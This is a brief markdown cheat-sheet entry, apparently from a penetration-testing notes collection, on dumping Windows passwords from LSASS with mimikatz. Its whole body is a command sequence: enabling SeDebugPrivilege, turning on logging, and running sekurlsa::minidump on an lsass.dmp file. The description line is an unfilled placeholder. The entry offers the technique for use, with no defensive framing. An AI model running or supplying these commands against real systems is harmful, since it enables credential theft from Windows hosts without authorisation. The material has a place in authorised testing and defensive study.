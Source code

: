 # Dumping Passwords from LSASS

**Description:** A description of the entry

**Requirements:** mimikatz

## Dumping lsass password using Mimikatz

**Must have SeDebugPrivilege**

```
mimikatz# privilege::debug
Privilege '20' OK
```

Checking if debug levels are correct

```
mimikatz# log <log_file>
Using 'log_file' for logfile : OK

mimikatz# log /stop
```

Turning on logging to output to file (Starting and stopping)

```
mimikatz# sekurlsa::minidump lsass.dmp
```

Dumping password from lsass dump

## References
* [Github - Mimikatz Wiki (sekurlsa)](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa)